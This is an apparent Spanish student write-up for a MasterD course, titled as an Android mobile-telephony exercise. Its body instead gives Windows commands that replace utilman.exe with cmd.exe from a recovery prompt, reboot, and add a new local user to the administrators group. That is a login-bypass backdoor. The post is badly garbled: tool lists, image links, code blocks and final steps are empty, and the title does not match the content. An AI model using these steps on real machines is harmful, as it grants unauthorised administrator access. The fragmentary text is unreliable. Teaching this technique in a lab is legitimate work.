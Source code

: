 ```yaml
---
title: MTD - Telefonía móvil 1
published: true
categories: [Android]
tags: [eJPT, eWPT, eCPPTv2, OSCP, Dificil]
---
```



¡Hola! 
Vamos a realizar el primer ejercicio de Telefonía móvil. En este primer ejercicio necesitamos obtener toda la información posible del dispositivo móvil con el que vamos a trabajar. Podremos emplear cualquier recurso a nuestra disposición, siempre que sea legal.

## HERRAMIENTAS UTILIZADAS
* 
* 
* 
*  



* * *

## PRIMEROS PASOS
En primer lugar necesitaremos bajarnos la máquina principal sobre la que vamos a trabajar, para ello yo estoy utilizando el archivo .iso de Android-Studio, la forma de instalación es muy sencilla y no tiene mucha complicación, de todas maneras dejo el link utilizado para la descarga y un vídeo que puede servir de ayuda para la instalación.

<img src="/assets/HTB/Android">



<img src="/assets/HTB/Android/">

<img src="/assets/HTB/Android/">
<img src="/assets/HTB/Android/">
<img src="/assets/HTB/Android/">

* 

* * * 

# DENTRO DE LA TERMINAL


```bash 

```



```bash
DISKPART>
```

<img src="/assets/HTB/Android/">

* 

```bash
DISKPART> 
```



```bash
X:> c:
```


```bash
C:> cd System32
```

```
C:\Windows\System32> move utilman.exe utilman.exe.bak
```

```bash
C:\Windows\System32> copy cmd.exe utilman.exe
```

Seguido de ello escribiremos el comando 

```bash
C:\Windows\System32> Wpeutil reboot
```


<img src="/assets/HTB/Android/">



```bash
C:\Windows\System32> net user "Nombre de usuario que quieras" /add
```

* 

```bash
C:\Windows\System32> net localgroup
```

```bash
C:
```
* 

`net localgroup Administradores Marin /add`


# DENTRO DE NUESTRO SISTEMA OPERATIVO


1. 
2. 
3. 
4. c





* * *

*__Esto es un trabajo realizado para MasterD con fines didácticos, no está enseñado para otro de sus usos.__*
